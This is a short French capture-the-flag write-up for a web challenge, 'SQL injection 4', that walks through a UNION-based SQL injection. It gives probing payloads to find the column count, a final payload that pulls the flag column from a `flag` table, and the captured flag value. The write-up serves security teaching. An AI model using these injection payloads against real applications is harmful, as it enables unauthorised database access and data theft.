# SQL injection 4

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce quatrième défi d'injection SQL requiert de charger des données qui sont dans une autre table. La table `users` ne contient qu'un seul utilisateur: `admin`. Cependant, il existe une nouvelle table `flag` qui contient un certain nombre de colonnes. Parmis ses colonnes, on trouve la colonne `flag` qui contient ce que vous cherchez. 

## Setup

Requirements:
- BurpSuite

# Writeup

https://portswigger.net/web-security/sql-injection/union-attacks

En se basant sur la technique expliquée dans la page web ci-haut, on doit déterminer le nombre de colonnes. 

`" union select 1 from flag--`
`" union select 1,2 from flag--`
`" union select 1,2,3 from flag--`

Les deux premières requêtes donnent un erreur. La troisième retourne `3`. On sait que pour afficher le flag, on devra utiliser la troisième colonne, donc on essaye la requête `" union select 1,2,flag from flag--`. 

C'est à ce moment qu'on obtient le flag `FLAG-373fc3b97cb4cd80d07942d92add1379unionizethis`.
